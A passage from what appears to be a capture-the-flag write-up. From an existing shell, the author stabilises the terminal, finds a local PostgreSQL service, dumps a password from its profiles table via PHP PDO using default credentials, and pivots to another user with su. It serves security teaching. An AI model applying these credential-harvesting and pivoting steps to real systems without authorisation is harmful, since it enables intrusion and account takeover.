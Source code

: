 Now that I'm already in the system with a shell, I first perform **Console treatment** so that the proportions of the same are correct and I can have a more efficient performance of the shell in each command that I perform. I still can't access the first flag, which tells me that I should most probably do a **user pivoting**, I remember that I had the access credentials to the database manager, **[Postgresql](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-postgresql.html?highlight=postg#rce-to-program){:target="_blank"}**. With `netstat` and `ps` I confirm that the default port of **Postgresql** is open locally and there is a Postgresql process running, I don't have the `psql` binary on the victim machine, so I will have to create a **[PDO connection with `php`](https://www.php.net/manual/en/pdo.construct.php){:target="_blank"}** to enumerate the database. After performing a **[successful query](https://www.php.net/manual/en/pdo.query.php){:target="_blank"}**, I manage to access a password (**Base 64 encoded**) for the **clave** user, but if I decode it, it doesn't work to migrate the user, so I try to enter the password without decoding and finally I can pivot to the **clave** user.

```bash
whoami
hostname
hostname -I
script /dev/null -c bash
# [Ctrl^Z]

stty raw -echo; fg
reset xterm

export TERM=xterm
export SHELL=bash
stty rows 29 columns 128

netstat -nat
ps -fawx | grep post
which psql

which php

php --interactive
  $dsn = 'pgsql:dbname=profiles;host=127.0.0.1';
  $user = 'profiles';
  $password = 'profiles';
  $dbh = new PDO($dsn, $user, $password);

  $dsn = 'pgsql:dbname=profiles;host=127.0.0.1';
  $user = 'profiles';
  $password = 'profiles';
  $dbh = new PDO($dsn, $user, $password);
  $sth = $dbh->query('SELECT * FROM profiles');
  $rows = $sth->fetchAll();
  echo ($rows);
  print_r($rows);

echo "c3NoLXN0cjBuZy1wQHNz==" | base64 -d; echo
echo "c3NoLXN0cjBuZy1wQHNz" | base64 -d; echo

su clave
# c3---==      :)
```
